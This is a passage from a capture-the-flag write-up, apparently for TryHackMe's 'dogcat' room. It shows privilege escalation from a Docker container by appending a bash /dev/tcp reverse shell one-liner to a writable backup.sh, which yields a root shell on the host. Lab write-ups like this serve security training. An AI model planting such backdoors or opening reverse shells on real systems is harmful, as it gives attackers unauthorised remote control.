 <img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-28 19_03_16-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>backup.tar creation time</i></center>
<br/>

Since we have write access on this backup script, we can insert backdoor that activates a reverse shell script and gain root-level access to the host machine running the container.

```bash
$ echo 'bash -i >& /dev/tcp/<tun0_IP>/<PORT> 0>&1' >> backup.sh
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-28 19_17_00-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>simple reverse shell backdoor</i></center>
<br/>

After 1 minute, you should receive a shell on your netcat listener: <br/>

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-28 19_20_13-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>root shell</i></center>
<br/>
